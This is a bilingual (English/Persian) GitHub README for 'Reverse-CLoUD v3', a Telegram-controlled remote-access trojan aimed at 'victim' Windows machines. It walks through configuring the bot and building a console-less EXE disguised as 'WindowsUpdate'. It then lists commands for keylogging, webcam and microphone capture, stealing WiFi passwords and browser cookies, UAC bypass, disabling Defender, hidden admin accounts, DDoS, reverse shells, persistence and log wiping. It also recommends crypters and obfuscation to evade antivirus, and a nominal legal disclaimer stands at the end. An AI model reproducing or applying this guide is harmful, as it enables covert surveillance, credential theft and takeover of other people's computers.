

<h1 align="center">👁️ Reverse-CLoUD v3 👁️</h1>


<p align="center">
  <i>it's a Reverse Shell Connected telegram bot v3. </i>
</p>
<p align="center">
  

  ###
## ⚠️ Shortcut's ⤵️
### [1️⃣ readme Persian](https://github.com/The-Lxx-CLoUD/Reverse-CLoUDv3/tree/main#-%D9%85%D8%B9%D8%B1%D9%81%DB%8C)
### [2️⃣ readme English ](https://github.com/The-Lxx-CLoUD/Reverse-CLoUDv3/tree/main#-introduction)
###
### [💡Persian Help Commands](https://github.com/The-Lxx-CLoUD/Reverse-CLoUDv3/tree/main#-%D9%84%DB%8C%D8%B3%D8%AA-%DA%A9%D8%A7%D9%85%D9%84-%D8%AF%D8%B3%D8%AA%D9%88%D8%B1%D8%A7%D8%AA) 
### [💡English Help Commands](https://github.com/The-Lxx-CLoUD/Reverse-CLoUDv3/tree/main#-full-command-list)

##

  # 💀  Reverse-CLoUD v3 - Merged Edition

> **Telegram C2 Framework with Persistent Shells**
> Author: **Lxx CLoUD** — [@lxxcloud](https://t.me/lxxcloud)
> GitHub: [The-Lxx-CLoUD](https://github.com/The-Lxx-CLoUD)


## 🎯 Introduction

**Reverse-CLoUD v3** is a complete C2 (Command & Control) framework based on **Telegram**, written in **Python**. It allows remote control of a victim's system through a Telegram bot.

### ✨ Why This Version?

- 🛡️ **Python-Safe**: Never deletes or modifies Python files
- 🛡️ **System-Safe**: Doesn't touch critical Windows settings
- 💥 **Persistent Shells**: PowerShell and CMD keep state between commands
- 🔐 **AES-256 encryption** for communication
- 🎯 **30 safe persistence methods**

---

## ⭐ Key Features

| Feature | Description |
|---------|-------------|
| 🖥️ **Full Control** | Through Telegram bot |
| 💥 **Persistent PowerShell** | `cd` and `ls` survive between commands |
| 💥 **Persistent CMD** | `cd` in CMD also persists |
| 📤 **File Upload** | Telegram → Victim |
| 📥 **File Download** | Victim → Telegram |
| 📸 **Screenshot** | Capture screen |
| 🎥 **Webcam** | Capture from camera |
| 🎤 **Microphone** | Audio recording |
| ⌨️ **Keylogger** | Record keystrokes |
| 🌐 **Network Info** | IP, MAC, ports |
| 🛡️ **30 Persistence Methods** | Secure approach |
| 🔐 **AES-256 Encryption** | For communication |

---

## 📋 Requirements

### Required Software

| Software | Version | Note |
|----------|---------|------|
| **Python** | 3.8+ | [Download](https://www.python.org/downloads/) |
| **pip** | Bundled | Auto-installed |
| **Windows** | 7/8/10/11 | Victim system |

### Python Libraries

#### ✅ Required

```txt
requests
psutil
```

#### ⚠️ Optional (for extra features)

```txt
mss              # Screenshot
pyautogui        # Screenshot
opencv-python    # Webcam
sounddevice      # Microphone
soundfile        # Save audio
pynput           # Keylogger
pyperclip        # Clipboard
browser-cookie3  # Browser cookies
pycryptodome     # Encryption
pywin32          # Windows API
```

---

## 🔧 Installing Dependencies

### Method 1: Install Everything (Recommended)

```bash
pip install requests psutil mss pyautogui opencv-python sounddevice soundfile pynput pyperclip browser-cookie3 pycryptodome pywin32
```

### Method 2: Minimal Install

```bash
pip install requests psutil
```

### Method 3: Using requirements.txt

Create a file called `requirements.txt`:

```txt
requests
psutil
mss
pyautogui
opencv-python
sounddevice
soundfile
pynput
pyperclip
browser-cookie3
pycryptodome
pywin32
```

Then run:

```bash
pip install -r requirements.txt
```

### Method 4: Upgrade pip First

If your pip is outdated:

```bash
python -m pip install --upgrade pip
```

Then install the libraries.

### ✅ Verify Installation

```bash
pip list
```

Or one by one:

```bash
python -c "import requests; print('requests OK')"
python -c "import psutil; print('psutil OK')"
python -c "import mss; print('mss OK')"
```

---

## 🚀 Running with Python

### Step 1: Save the File

Save `RC-v3.py` (e.g., C:\Users\mmd\Desktop\s2.py`).

### Step 2: Configuration

Before running, edit these lines in the file:

```python
# Line 35 — Telegram bot token
BOT_TOKEN = "YOUR_BOT_TOKEN_HERE"

# Line 36 — Admin numeric ID
ADMIN_ID = "YOUR_TELEGRAM_ID_HERE"
```

**How to create a bot token?**
- Go to [@BotFather](https://t.me/BotFather) on Telegram
- Send `/newbot`
- Choose a name and username
- Copy the token

**How to find my numeric ID?**
- Go to [@userinfobot](https://t.me/userinfobot) on Telegram
- Send `/start`
- Copy the numeric ID

### Step 3: Run

```bash
cd C:\FatRat
python s2.py
```

If successful, you'll see ` Reverse-CLoUD v3 Connected` in the bot.

---

## 📦 Building EXE

### Step 1: Install PyInstaller

```bash
pip install pyinstaller
```

### Step 2: Simple Command
pip install --upgrade pip
```bash
pyinstaller --onefile --noconsole --name "WindowsUpdate" RC-v3.py
```

### Step 3: Full Command (Recommended)

```bash
pyinstaller --onefile --noconsole --name "WindowsUpdate" ^--hidden-import=requests ^
  --hidden-import=psutil ^
  --hidden-import=mss ^
  --hidden-import=mss.tools ^
  --hidden-import=pyautogui ^
  --hidden-import=cv2 ^
  --hidden-import=sounddevice ^
  --hidden-import=soundfile ^
  --hidden-import=pynput ^
  --hidden-import=pynput.keyboard ^
  --hidden-import=pyperclip ^
  --hidden-import=browser_cookie3 ^
  --hidden-import=Crypto ^
  --hidden-import=win32com ^
  --hidden-import=win32com.client ^
  RC-v3.py
```

> ⚠️ In CMD use `^` to continue lines. In PowerShell, put everything on one line.

### One-Line Version

```bash
pyinstaller --onefile --noconsole --name "WindowsUpdate" --hidden-import=requests --hidden-import=psutil --hidden-import=mss --hidden-import=mss.tools --hidden-import=pyautogui --hidden-import=cv2 --hidden-import=sounddevice --hidden-import=soundfile --hidden-import=pynput --hidden-import=pynput.keyboard --hidden-import=pyperclip --hidden-import=browser_cookie3 --hidden-import=Crypto --hidden-import=win32com --hidden-import=win32com.client RC-v3.py
```

### Step 4: Locate the EXE

After 1–5 minutes:

```
C:\mmd\dist\WindowsUpdate.exe
```

The EXE is typically **15 to 50 MB**.

### ⚠️ Important Notes for EXE

| Flag | Description |
|------|-------------|
| `--onefile` | Everything in one file |
| `--noconsole` | No CMD window opens |
| `--hidden-import` | For dynamic libraries |
| `--icon=icon.ico` | Custom icon |
| `--clean` | Clean temp files before build |
| `--upx-dir` | Compress with UPX |

### Test the EXE

Before deploying, test on your own machine:

```bash
dist\WindowsUpdate.exe
```

### If Antivirus Flags It

1. In Windows Defender → **Add Exclusion** → add the EXE
2. Or use a crypter
3. Or obfuscate the code

---

## 🤖 Setting Up Telegram Bot

### Step 1: Create a Bot

1. Open Telegram
2. Go to [@BotFather](https://t.me/BotFather)
3. Send `/newbot`
4. Bot name: e.g., `MyUpdateBot`
5. Bot username: e.g., `MyUpdateBot_bot`
6. Copy the token (looks like `8219048470:AAH...`)

### Step 2: Get Admin ID

1. Go to [@userinfobot](https://t.me/userinfobot)
2. Send `/start`
3. Copy the numeric ID (e.g., `123456789`)

### Step 3: Configure the Code

```python
BOT_TOKEN = "your_bot_token_here"
ADMIN_ID = "your_numeric_id_here"
```

### Step 4: Test the Bot

In Telegram, open your bot and send:

```
/start
```

If it responds, everything is working.

---

## 📖 Full Command List

### ⚡ Persistent Shells (state persists)

| Command | Description | Example |
|---------|-------------|---------|
| `/ps1 <cmd>` | Persistent PowerShell | `/ps1 cd C:\Users` |
| `/ps1 ls` | List files | `/ps1 ls` |
| `/ps1 dir` | List files | `/ps1 dir` |
| `/cmd1 <cmd>` | Persistent CMD | `/cmd1 cd C:\Windows` |
| `/cmd1 dir` | List with CMD | `/cmd1 dir` |
| `/pwd` | Current PS directory | `/pwd` |
| `/cwd` | Current CMD directory | `/cwd` |
| `/ps <cmd>` | Simple PowerShell (no persistence) | `/ps Get-Process` |
| `/run <cmd>` | Simple CMD | `/run whoami` |

### 📊 System Info

| Command | Description |
|---------|-------------|
| `/sysinfo` | Full system info |
| `/hwinfo` | Hardware info |
| `/swinfo` | Installed software |
| `/processes` | Process list |
| `/services` | Windows services |
| `/drivers` | Drivers |
| `/netinfo` | Network info |
| `/netstats` | Network statistics |
| `/users` | Logged-in users |
| `/drives` | Drives |
| `/openports` | Open ports |
| `/firewallrules` | Firewall rules |
| `/scheduledtasks` | Scheduled tasks |
| `/environment` | Environment variables |
| `/hostsfile` | Hosts file |
| `/dnscache` | DNS cache |
| `/arptable` | ARP table |
| `/windowsversion` | Windows version |
| `/installedapps` | Installed apps |
| `/startupprograms` | Startup programs |
| `/recentfiles` | Recent files |
| `/cmdhistory` | CMD history |
| `/powershellhistory` | PowerShell history |
| `/batteryinfo` | Battery info |
| `/sounddevices` | Sound devices |
| `/usbdevices` | USB devices |
| `/stats` | Bot statistics |

### 👁️ Spyware

| Command | Description |
|---------|-------------|
| `/keylogstart` | Start keylogger |
| `/keylogstop` | Stop keylogger |
| `/keylogget` | Retrieve keystrokes |
| `/screenshot` | Screenshot |
| `/screenshotactive` | Active window screenshot |
| `/webcam` | Webcam photo |
| `/mic [sec]` | Microphone recording |
| `/wifipasswords` | WiFi passwords |
| `/browsercookies` | Browser cookies |
| `/clipboard` | Clipboard content |
| `/location` | Geographic location |
| `/bluetoothscan` | Bluetooth scan |

### 🎮 System Control

| Command | Description |
|---------|-------------|
| `/run` | Execute CMD |
| `/runbg` | Run in background |
| `/execute` | Execute file |
| `/kill <pid>` | Kill process |
| `/killall <name>` | Kill all by name |
| `/suspend <pid>` | Suspend process |
| `/resume <pid>` | Resume process |
| `/priority <pid> <p>` | Set priority |
| `/restart` | Restart |
| `/shutdown` | Shutdown |
| `/logout` | Logout user |
| `/lock` | Lock workstation |
| `/wallpaper <path>` | Change wallpaper |
| `/settime` | Set time |
| `/renamepc <name>` | Rename PC |
| `/adduser` | Add user |
| `/deluser` | Delete user |
| `/changepassword` | Change password |
| `/hidefile` | Hide file |
| `/unhidefile` | Unhide file |
| `/tree <path>` | Folder tree |
| `/bootmanager` | Boot manager |
| `/drivermanager` | Driver manager |
| `/powerscheme` | Power scheme |
| `/volume` | Volume control |
| `/brightness` | Brightness |
| `/screenrotate` | Rotate screen |
| `/taskbarhide` | Hide taskbar |
| `/desktopicons` | Desktop icons |
| `/systeminfogui` | Open msinfo32 |
| `/networkgui` | Open ncpa.cpl |
| `/processgui` | Open Task Manager |
| `/filegui` | Open Explorer |
| `/cmdgui` | Open CMD |
| `/reggui` | Open Registry |
| `/eventgui` | Open Event Viewer |
| `/servicegui` | Open Services |

### 📁 Files

| Command | Description |
|---------|-------------|
| `/upload [path]` | Receive file from Telegram |
| `/download <path>` | Send file to Telegram |
| `/downloadurl <url> <path>` | Download from internet |
| `/delete <path>` | Delete file |
| `/find <name>` | Search file |
| `/ls [path]` | List files |
| `/copy <src> <dst>` | Copy |
| `/move <src> <dst>` | Move |
| `/rename <old> <new>` | Rename |
| `/mkdir <path>` | Create folder |
| `/zip <folder> <out>` | Zip |
| `/unzip <file> <path>` | Unzip |
| `/fileproperties <path>` | File info |
| `/filehash <path>` | File hash |

### 🔓 Privilege Escalation

| Command | Description |
|---------|-------------|
| `/uac` | UAC bypass |
| `/uacadvanced` | Advanced UAC bypass |
| `/system` | SYSTEM access |
| `/disabledefender` | Disable Defender |
| `/disablefirewall` | Disable Firewall |
| `/addadmin <user>` | Promote to admin |
| `/hiddenuser <u> <p>` | Create hidden user |

### 🌐 Network

| Command | Description |
|---------|-------------|
| `/scanports <ip> [range]` | Port scan |
| `/scannetwork` | Local network scan |
| `/ddos <ip> <port> <sec>` | DDoS |
| `/checkinternet` | Internet check |
| `/wifiscan` | WiFi scan |
| `/dnschange <p> [s]` | Change DNS |
| `/proxy <ip> <port>` | Set proxy |
| `/reverseshell <ip> <port>` | Reverse shell |
| `/bindshell <port>` | Bind shell |
| `/netstat` | netstat |
| `/ping <host>` | ping |
| `/whois <domain>` | whois |

### 🛡️ Persistence

| Command | Description |
|---------|-------------|
| `/persist` | Install persistence |
| `/persistcheck` | Check persistence |
| `/unpersist` | Remove persistence |
| `/wipetraces` | Wipe traces |

### 💥 Destruction

| Command | Description |
|---------|-------------|
| `/clearlogs` | Clear event logs |
| `/deleteshadows` | Delete shadow copies |
| `/suicide` | Self-destruct |

### ❓ Help

| Command | Description |
|---------|-------------|
| `/help` | Full help |

---

## 💥 Persistent Shells (Most Important Feature)

This feature keeps `cd` and `ls` state between commands — **no need to re-enter directories**.

### Persistent PowerShell Example

```
/ps1 cd C:\Users              → 📁 C:\Users
/ps1 ls                       → Lists files in C:\Users
/ps1 cd Public                → 📁 C:\Users\Public
/ps1 Get-Process              → Lists processes
/ps1 pwd                      → C:\Users\Public
```

**Every command runs from the last directory!**

### Persistent CMD Example

```
/cmd1 cd C:\Windows           → 📁 C:\Windows
/cmd1 dir                     → Lists files in C:\Windows
/cmd1 cd System32             → 📁 C:\Windows\System32
/cmd1 ipconfig                → Runs from C:\Windows\System32
```

### Useful Commands

```
/pwd                          → Current PowerShell directory
/cwd                          → Current CMD directory
```

### Important Notes

- **PowerShell** and **CMD** each have their own shell and working directory
- If you want both in the same path, `cd` each separately
- Paths are stored in `ps_cwd.txt` and `cmd_cwd.txt` and survive restarts

---

## 📤 Upload & Download

### Upload (Telegram → Victim)

#### Method 1: Simple

```
/upload
```

Then send the file. It saves to the **current PowerShell directory**.

#### Method 2: Specific Path

```
/upload C:\Users\Public
```

Then send the file. It saves to `C:\Users\Public`.

#### Method 3: Specific Filename

```
/upload C:\Users\Public\myfile.exe
```

Then send the file. It saves with that name.

### Download (Victim → Telegram)

```
/download C:\secret.txt
```

The file appears directly in the Telegram chat.

### Limits

| Item | Value |
|------|-------|
| Max file size | 50 MB (Telegram limit) |
| Upload timeout | 5 minutes |
| Python extensions | Blocked |

### Notes

- If `/upload` path is invalid, it falls back to current PS dir
- If write permission denied, saves to temp
- `python.exe` and `pythonw.exe` are blocked (protection)

---

## 🛡️ Persistence

### Available Methods (30 Safe Methods)

| # | Method | Description |
|---|--------|-------------|
| 1-5 | Registry HKCU | Run, RunOnce, RunServices, Policies, Environment |
| 6-9 | Task Scheduler | onlogon, onidle, onevent, daily |
| 10-11 | Startup Folder | User + Common |
| 12-14 | Backups | SAFE_DIR, HIDDEN_DIR, Temp |
| 15 | Attributes | Hidden + System |
| 16 | Defender Exclusion | SAFE folder only |
| 17 | WMI Event | Event Subscription |
| 18 | Desktop Shortcut | Shortcut on desktop |
| 19-20 | RunOnceEx + Windows Load | Extra registry keys |

### Install Persistence

```
/persist
```

### Check Persistence

```
/persistcheck
```

### Remove Persistence

```
/unpersist
```

### ⚠️ Security Notes

- **Only works when running as EXE** — running via `python s2.py` skips persistence (Python safety)
- Everything is in `HKCU` (User level), no admin required
- Safe path: `%APPDATA%\Microsoft\Windows\SystemHealth`

---

## 🔐 Security Notes

### ✅ What the Code Does

- Copies itself to `SAFE_DIR` (only when EXE)
- Registers in Registry HKCU (user-level)
- Registers Task Scheduler (user-level)
- Adds itself to Defender Exclusion (only its own folder)
- Wipes traces with `/wipetraces`

### ❌ What the Code Does **NOT** Do

- ❌ Delete Python files
- ❌ Touch `python.exe` or `pythonw.exe`
- ❌ Disable UAC (by default)
- ❌ Disable System Restore
- ❌ Delete Shadow Copies (without explicit command)
- ❌ Format drives
- ❌ Change Boot Config
- ❌ Damage system files

### 🛡️ Built-in Protections

```python
# Every file operation is checked:
def is_python_file(path):
    # If path points to python.exe or Python files, it's blocked

def is_safe_path(path):
    # If path is in System32 or SysWOW64, it's blocked
```

### ⚠️ Warning

This tool is **only for security testing on your own system** or systems you have **written permission** to test. Unauthorized use is a **criminal offense**.

---

## 🔧 Troubleshooting

### Issue 1: Bot Not Responding

| Cause | Fix |
|-------|-----|
| Wrong token | Re-fetch from BotFather |
| Wrong Admin ID | Get from userinfobot |
| No internet | Check connection |
| Firewall | Port 443 outbound must be open |

### Issue 2: Permission Denied

| Cause | Fix |
|-------|-----|
| No permission | Run as admin |
| File in use | Close the file |
| Protected path | Use a different path |

### Issue 3: PowerShell Not Responding

```bash
# Manual test
powershell.exe -NoProfile -ExecutionPolicy Bypass -Command "pwd"
```

If this fails, Windows Policy issue:

```bash
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope CurrentUser
```

### Issue 4: CMD Not Responding

Check `SAFE_DIR`:

```bash
dir "%APPDATA%\Microsoft\Windows\SystemHealth"
```

Files `cmd_bootstrap.bat` and `cmd_cwd.txt` should exist.

### Issue 5: EXE Doesn't Work

Build with `--console` to see errors:

```bash
pyinstaller --onefile --console --name "WindowsUpdate_test" s2.py
```

Then run `dist\WindowsUpdate_test.exe`.

### Issue 6: Antivirus Deletes It

1. In Windows Defender → Exclusions → add the EXE
2. Or use a crypter
3. Or obfuscate the code

### Issue 7: EXE Too Large

Use UPX:

```bash
pip install upx
pyinstaller --onefile --noconsole --upx-dir "C:\upx" s2.py
```

### Issue 8: Persistent Shells Reset After Restart

This is normal — each run reads `ps_cwd.txt`. If the file was deleted, it falls back to default.

---

## 📂 File Structure

### Project Structure

```
FatRat/
├── s2.py                    ← Main code
├── requirements.txt         ← Dependencies
├── README.md                ← This file
├── build/                   ← PyInstaller temp files
├── dist/
│   └── WindowsUpdate.exe   ← Final EXE
└── WindowsUpdate.spec       ← PyInstaller config
```

### Victim System Structure

```
%APPDATA%\Microsoft\Windows\
├── SystemHealth\                    ← SAFE_DIR
│   ├── sys_update.exe              ← EXE copy
│   ├── backup.exe                  ← Backup
│   ├── ps_cwd.txt                  ← PS directory
│   ├── ps_input.ps1                ← PS input
│   ├── ps_output.txt               ← PS output
│   ├── ps_done.flag                ← PS flag
│   ├── cmd_cwd.txt                 ← CMD directory
│   ├── cmd_input.bat               ← CMD input
│   ├── cmd_output.txt              ← CMD output
│   ├── cmd_done.flag               ← CMD flag
│   ├── bootstrap.ps1               ← PS bootstrap
│   └── cmd_bootstrap.bat           ← CMD bootstrap
└── Caches\{8F4E2D1A-...}\          ← HIDDEN_DIR
    └── backup.exe
```

---

## ❓ FAQ

### ❓ Does the victim need Python?

❌ **No** — if you build with PyInstaller, everything is bundled.

### ❓ Does the victim need to install libraries?

❌ **No** — everything is inside the EXE.

### ❓ Does the victim need internet?

✅ **Yes** — to connect to Telegram.

### ❓ Will antivirus flag it?

⚠️ **Possibly** — you need to obfuscate or use a crypter.

### ❓ Do shells survive restart?

✅ **Yes** — stored in `ps_cwd.txt` and `cmd_cwd.txt`.

### ❓ Can I control multiple victims?

❌ **Not simultaneously** — each instance needs its own bot with its own token.

### ❓ How do I send a file?

Just type `/upload`, then send the file via Telegram.

### ❓ How do I get a file?

`/download C:\path\to\file.txt`

### ❓ Will my Python break?

❌ **No** — the code is Python-Safe. It never modifies Python files.

### ❓ Will the victim's system break?

❌ **No** — persistence is user-level only. Critical settings are untouched.

### ❓ How do I remove it?

Type `/unpersist` to remove persistence. Or `/suicide` for full exit.

### ❓ Is there a command limit?

Unlimited — as many as you want.

### ❓ How fast is the bot?

Usually 1–2 seconds per command.

### ❓ Can I modify the bot?

✅ **Yes** — the code is fully open, you can add commands.

---

## 📞 Contact

| Platform | Link |
|----------|------|
| Telegram | [@lxxcloud](https://t.me/lxxcloud) |
| GitHub | [The-Lxx-CLoUD](https://github.com/The-Lxx-CLoUD) |

---

## ⚖️ Disclaimer

> This tool is designed **for educational purposes and security testing** on your own systems or systems you have **written permission** to test.
>
> Unauthorized use is a **criminal offense** and the author takes **no responsibility** for misuse.
>
> By using this code, **you accept full responsibility**.

---

## 🎯 Version

**Reverse-CLoUD v3 - Merged Edition**
- Python Safe
- System Safe
- Persistent Shells
- Simple Upload

---

**Made with ❤️ by Lxx CLoUD**


###
###

###


# 💀  Reverse-CLoUD v3 - Merged Edition

> **Ultimate Telegram C2 Framework with Persistent Shells**
> Author: **Lxx CLoUD** — [@lxxcloud](https://t.me/lxxcloud)
> GitHub: [The-Lxx-CLoUD](https://github.com/The-Lxx-CLoUD)


## 🎯 معرفی

**Reverse-CLoUD v3** یک C2 Framework (Command & Control) کامل بر پایه‌ی **Telegram** است که با **پایتون** نوشته شده. این ابزار از طریق یک ربات تلگرام، امکان کنترل از راه دور سیستم قربانی رو فراهم می‌کنه.

### ✨ چرا این نسخه؟

- 🛡️ **Python-Safe**: هیچ فایل پایتونی رو حذف یا تغییر نمی‌ده
- 🛡️ **System-Safe**: تنظیمات حیاتی ویندوز رو دستکاری نمی‌کنه
- 💥 **Persistent Shells**: PowerShell و CMD بین دستورات پایدارن
- 🔐 **AES-256 رمزنگاری** ارتباط
- 🎯 **30 روش ماندگاری امن**

---

## ⭐ ویژگی‌های کلیدی

| ویژگی | توضیح |
|-------|-------|
| 🖥️ **کنترل کامل** | از طریق ربات تلگرام |
| 💥 **Persistent PowerShell** | `cd` و `ls` بین دستورات حفظ می‌شن |
| 💥 **Persistent CMD** | `cd` در CMD هم پایدار می‌مونه |
| 📤 **آپلود فایل** | فایل از تلگرام به قربانی |
| 📥 **دانلود فایل** | فایل از قربانی به تلگرام |
| 📸 **اسکرین‌شات** | عکس از صفحه نمایش |
| 🎥 **وب‌کم** | عکس از دوربین |
| 🎤 **میکروفون** | ضبط صدا |
| ⌨️ **کیلاگر** | ثبت کلیدهای فشرده‌شده |
| 🌐 **اطلاعات شبکه** | IP، MAC، پورت‌ها |
| 🛡️ **30 روش ماندگاری** | با رویکرد امن |
| 🔐 **رمزنگاری AES-256** | برای ارتباط |

---

## 📋 پیش‌نیازها

### نرم‌افزارهای ضروری

| نرم‌افزار | نسخه | توضیح |
|-----------|------|-------|
| **Python** | 3.8 یا بالاتر | [دانلود](https://www.python.org/downloads/) |
| **pip** | همراه پایتون | نصب خودکار |
| **ویندوز** | 7/8/10/11 | سیستم قربانی |

### کتابخانه‌های پایتون

#### ✅ ضروری

```txt
requests
psutil
```

#### ⚠️ اختیاری (برای قابلیت‌های بیشتر)

```txt
mss              # اسکرین‌شات
pyautogui        # اسکرین‌شات
opencv-python    # وب‌کم
sounddevice      # میکروفون
soundfile        # ذخیره صدا
pynput           # کیلاگر
pyperclip        # کلیپ‌بورد
browser-cookie3  # کوکی مرورگر
pycryptodome     # رمزنگاری
pywin32          # Windows API
```

---

## 🔧 نصب پیش‌نیازها

### روش ۱: نصب همه یکجا (توصیه شده)

```bash
pip install requests psutil mss pyautogui opencv-python sounddevice soundfile pynput pyperclip browser-cookie3 pycryptodome pywin32
```

### روش ۲: نصب حداقلی

```bash
pip install requests psutil
```

### روش ۳: با requirements.txt

فایل `requirements.txt` بساز:

```txt
requests
psutil
mss
pyautogui
opencv-python
sounddevice
soundfile
pynput
pyperclip
browser-cookie3
pycryptodome
pywin32
```

بعد اجرا کن:

```bash
pip install -r requirements.txt
```

### روش ۴: ارتقا pip اول

اگه pip قدیمیه:

```bash
python -m pip install --upgrade pip
```

بعد کتابخانه‌ها رو نصب کن.

### ✅ چک کردن نصب

```bash
pip list
```

یا تک‌تک:

```bash
python -c "import requests; print('requests OK')"
python -c "import psutil; print('psutil OK')"
python -c "import mss; print('mss OK')"
```

---

## 🚀 اجرای کد با پایتون

### مرحله ۱: ذخیره فایل

فایل `RC-v3.py` رو ذخیره کن (مثلاً `C:\Users\mmd\Desktop\RC-v3.py`).
### مرحله ۲: تنظیمات

قبل از اجرا، این خطوط رو توی فایل ویرایش کن:

```python
# خط ۳۵ — توکن ربات تلگرام
BOT_TOKEN = "YOUR_BOT_TOKEN_HERE"

# خط ۳۶ — آی‌دی عددی ادمین
ADMIN_ID = "YOUR_TELEGRAM_ID_HERE"
```

**چطور توکن ربات بسازم؟**
- برو به [@BotFather](https://t.me/BotFather) توی تلگرام
- بزن `/newbot`
- اسم و یوزرنیم ربات رو بذار
- توکن رو کپی کن

**چطور آی‌دی عددی خودم رو پیدا کنم؟**
- برو به [@userinfobot](https://t.me/userinfobot) توی تلگرام
- بزن `/start`
- آی‌دی عددی رو کپی کن

### مرحله ۳: اجرا

```bash
cd C:\mmd
python RC-v3.py
```

اگه موفق باشه، پیام `Reverse-CLoUD v3 Connected` رو توی ربات می‌بینی.

---

## 📦 ساخت فایل EXE

### مرحله ۱: نصب PyInstaller

```bash
pip install pyinstaller
```

### مرحله ۲: ساده‌ترین دستور

```bash
pyinstaller --onefile --noconsole --name "WindowsUpdate" RC-v3.py
```

### مرحله ۳: دستور کامل (توصیه شده)

```bash
pyinstaller --onefile --noconsole --name "WindowsUpdate" ^
  --hidden-import=requests ^
  --hidden-import=psutil ^
  --hidden-import=mss ^
  --hidden-import=mss.tools ^
  --hidden-import=pyautogui ^
  --hidden-import=cv2 ^
  --hidden-import=sounddevice ^
  --hidden-import=soundfile ^
  --hidden-import=pynput ^
  --hidden-import=pynput.keyboard ^
  --hidden-import=pyperclip ^
  --hidden-import=browser_cookie3 ^
  --hidden-import=Crypto ^
  --hidden-import=win32com ^
  --hidden-import=win32com.client ^
  RC-v3.py
```

> ⚠️ در CMD از `^` برای ادامه خط استفاده کن، در PowerShell همه رو یک‌خطی بنویس.

### نسخه یک‌خطی (بدون شکستن خط)

```bash
pyinstaller --onefile --noconsole --name "WindowsUpdate" --hidden-import=requests --hidden-import=psutil --hidden-import=mss --hidden-import=mss.tools --hidden-import=pyautogui --hidden-import=cv2 --hidden-import=sounddevice --hidden-import=soundfile --hidden-import=pynput --hidden-import=pynput.keyboard --hidden-import=pyperclip --hidden-import=browser_cookie3 --hidden-import=Crypto --hidden-import=win32com --hidden-import=win32com.client RC-v3.py
```

### مرحله ۴: پیدا کردن exe

بعد از ۱ تا ۵ دقیقه:

```
C:\mmd\dist\WindowsUpdate.exe
```

فایل exe معمولاً **۱۵ تا ۵۰ مگابایت** می‌شه.

### ⚠️ نکات مهم در ساخت EXE

| نکته | توضیح |
|------|-------|
| `--onefile` | همه چیز توی یک فایل |
| `--noconsole` | پنجره‌ی CMD باز نشه |
| `--hidden-import` | برای کتابخانه‌های dynamic |
| `--icon=icon.ico` | اگه آیکون می‌خوای |
| `--clean` | قبل از ساخت، فایل‌های موقت رو پاک کن |
| `--upx-dir` | برای فشرده‌سازی با UPX |

### تست exe

قبل از فرستادن به قربانی، روی سیستم خودت تست کن:

```bash
dist\WindowsUpdate.exe
```

### اگه آنتی‌ویروس گیر داد

1. توی Windows Defender → **Add Exclusion** → فایل exe رو اضافه کن
2. یا از crypter استفاده کن
3. یا با obfuscation کد رو بپوشون

---

## 🤖 راه‌اندازی ربات تلگرام

### مرحله ۱: ساخت ربات

1. تلگرام رو باز کن
2. برو به [@BotFather](https://t.me/BotFather)
3. بزن `/newbot`
4. اسم ربات: مثلاً `MyUpdateBot`
5. یوزرنیم: مثلاً `MyUpdateBot_bot`
6. توکن رو کپی کن (شبیه `8219048470:AAH...`)

### مرحله ۲: پیدا کردن Admin ID

1. برو به [@userinfobot](https://t.me/userinfobot)
2. بزن `/start`
3. آی‌دی عددی خودت رو کپی کن (مثلاً `123456789`)

### مرحله ۳: تنظیم در کد

```python
BOT_TOKEN = "توکن ربات اینجا"
ADMIN_ID = "آی‌دی عددی اینجا"
```

### مرحله ۴: تست ربات

توی تلگرام، ربات خودت رو باز کن و بزن:

```
/start
```

اگه جواب اومد، همه چیز درسته.

---

## 📖 لیست کامل دستورات

### ⚡ Persistent Shells (پایدار بین دستورات)

| دستور | توضیح | مثال |
|--------|-------|------|
| `/ps1 <cmd>` | PowerShell پایدار | `/ps1 cd C:\Users` |
| `/ps1 ls` | لیست فایل‌ها | `/ps1 ls` |
| `/ps1 dir` | لیست فایل‌ها | `/ps1 dir` |
| `/cmd1 <cmd>` | CMD پایدار | `/cmd1 cd C:\Windows` |
| `/cmd1 dir` | لیست با CMD | `/cmd1 dir` |
| `/pwd` | مسیر فعلی PS | `/pwd` |
| `/cwd` | مسیر فعلی CMD | `/cwd` |
| `/ps <cmd>` | PowerShell ساده (بدون پایداری) | `/ps Get-Process` |
| `/run <cmd>` | CMD ساده | `/run whoami` |

### 📊 اطلاعات سیستم

| دستور | توضیح |
|--------|-------|
| `/sysinfo` | اطلاعات کامل سیستم |
| `/hwinfo` | اطلاعات سخت‌افزار |
| `/swinfo` | نرم‌افزارهای نصب‌شده |
| `/processes` | لیست پروسه‌ها |
| `/services` | سرویس‌های ویندوز |
| `/drivers` | درایورها |
| `/netinfo` | اطلاعات شبکه |
| `/netstats` | آمار شبکه |
| `/users` | کاربران لاگین‌شده |
| `/drives` | درایوها |
| `/openports` | پورت‌های باز |
| `/firewallrules` | قوانین فایروال |
